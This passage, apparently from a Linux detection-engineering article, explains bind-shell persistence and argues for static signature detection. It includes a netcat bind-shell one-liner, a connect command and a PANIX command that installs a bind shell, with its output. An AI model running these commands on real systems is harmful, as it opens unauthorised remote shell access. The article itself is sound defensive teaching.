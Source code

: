 1. Listening Socket: The compromised system opens a network socket and listens for incoming connections on a specific port.
2. Binding the Shell: When a connection is established, the system binds a command shell (such as `/bin/bash` or `/bin/sh`) to the socket.
3. Remote Access: The attacker connects to the bind shell using a network client (like `netcat`) and gains access to the command shell on the compromised system.

An attacker can set up a bind shell in various ways, ranging from simple one-liners to more sophisticated scripts. Here is an example of a bind shell using the traditional version of netcat:

```
nc -lvnp 9001 -e /bin/bash
```

Once the bind shell is set up, the attacker can connect to it from their machine:

```
nc -nv <target_ip> 4444
```

To maintain persistence, the bind shell must be set to start automatically upon system boot or reboot. This can be achieved through various methods we discussed earlier, such as `cron`, `Systemd,` or methods discussed in the next part of this Linux detection engineering series.

MITRE does not have a specific bind/reverse-shell technique, and probably classifies bind shells as the execution technique. However, the bind shell is used for persistence in our use case. Some more information from MITRE on bind/reverse shells is available at [T1059.004](https://attack.mitre.org/techniques/T1059/004/).

### Persistence through T1059.004 - bind shells

Detecting bind shells through behavioral rules is inherently challenging because their behavior is typically benign and indistinguishable from legitimate processes. A bind shell opens a network socket and waits for an incoming connection, a common activity for many legitimate services. When an attacker connects, it merely results in a network connection and the initiation of a shell session, which are both normal operations on a system.

Due to behavioral detection's limitations, the most reliable method for identifying bind shells is static signature detection. This approach involves scanning the file system or memory for known shellcode patterns associated with bind shells.

By leveraging static signatures, we can identify and prevent bind shells more effectively than relying solely on behavioral analysis. This approach helps detect the specific code sequences used by bind shells, regardless of their behavior, ensuring a more robust defense against this type of persistence mechanism.

As all of our signature-based detections are open-source, you can check them out by visiting our [protections-artifacts YARA repository](https://github.com/elastic/protections-artifacts/tree/main/yara/rules). If you want to analyze this method within your tooling, you can leverage PANIX to set up a bind shell and connect to it using `nc`. To do so, execute the following command:

```
./panix.sh --bind-shell --default --architecture x64
[+] Bind shell /tmp/bd64 was created, executed and backgrounded.
[+] The bind shell is listening on port 9001.
[+] To interact with it from a different system, use: nc -nv <IP> 9001
[+] Bind shell persistence established!
```
